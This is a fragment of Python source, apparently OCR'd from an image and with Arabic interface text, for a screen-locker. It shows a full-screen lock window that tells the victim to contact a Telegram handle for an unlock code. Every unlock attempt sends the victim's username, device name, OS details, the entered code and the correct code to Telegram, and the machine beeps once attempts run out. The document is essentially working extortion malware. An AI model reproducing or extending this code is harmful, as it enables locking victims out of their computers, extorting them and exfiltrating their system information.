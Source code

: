 ```python
    ctk.CTkLabel(lock_window, text="@Cyb_Hack أدخل كلمني على التيليجرام", font=("Arial", 50), text_color="#1E40AF").pack(pady=30)
    ctk.CTkLabel(lock_window, text="أدخل رمز الفتح الذي تم إرساله على تيليجرام", font=("Arial", 16), text_color="#1E40AF").pack(pady=10)
    ctk.CTkLabel(lock_window, text="أدخل اسمك", font=("Arial", 16), text_color="#1E40AF").pack(pady=10)
    name_entry = ctk.CTkEntry(lock_window, font=("Arial", 20), fg_color="#F8FAFC", border_color="#DBEAFE", width=300)
    name_entry.pack(pady=10)
    display_frame = ctk.CTkFrame(lock_window, fg_color="transparent")
    display_frame.pack(pady=20)
    media_label = ctk.CTkLabel(display_frame, text="", font=("Arial", 14), text_color="#1E40AF")
    media_label.pack()
    media_image_label = ctk.CTkLabel(display_frame, text="")
    media_image_label.pack()
    code_entry = ctk.CTkEntry(lock_window, font=("Arial", 20), show="*", fg_color="#F8FAFC", border_color="#DBEAFE", width=300)
    code_entry.pack(pady=10)
    def check_code():
        entered_name = name_entry.get().strip()
        if not entered_name:
            error_label.configure(text="يرجى إدخال اسمك أولاً!", text_color="orange")
            return
        if code_entry.get() == UNLOCK_CODE:
            try:
                username = getpass.getuser()
                current_time = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
                message = (
                    f"✅ تم إلغاء القفل بنجاح\n"
                    f"👤 من: {entered_name}\n"
                    f"💻 اسم المستخدم: {username}\n"
                    f"🖥️ اسم الجهاز: {device_name}\n"
                    f"⏰ الوقت: {current_time}"
                )
                send_to_telegram_split(message)
            except Exception as e:
                send_to_telegram_split(f"✅ تم إلغاء القفل بنجاح\nخطأ في جمع البيانات: {str(e)}\nالجهاز: {device_name}")
            lock_window.grab_release()
            lock_window.destroy()
        else:
            try:
                username = getpass.getuser()
                os_info = platform.platform()
                os_version = platform.version()
                current_time = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
                message = (
                    f"محاولة فتح من: {entered_name}\n"
                    f"👤 اسم المستخدم: {username}\n"
                    f"💻 اسم الجهاز: {device_name}\n"
                    f"🧾 نظام التشغيل: {os_info}\n"
                    f"📌 إصدار النظام: {os_version}\n"
                    f"⏰ الوقت: {current_time}\n"
                    f"رمز الفتح المُدخل: {code_entry.get()}\n"
                    f"🔑 الرمز الصحيح: {UNLOCK_CODE}"
                )
                send_to_telegram_split(message)
            except Exception as e:
                send_to_telegram_split(f"محاولة فتح من: {entered_name}\nخطأ في جمع البيانات: {str(e)}\n🔑 الرمز الصحيح: {UNLOCK_CODE}\nالجهاز: {device_name}")
            attempts_left[0] -= 1
            if attempts_left[0] <= 0:
                winsound.Beep(1000, 1000)
```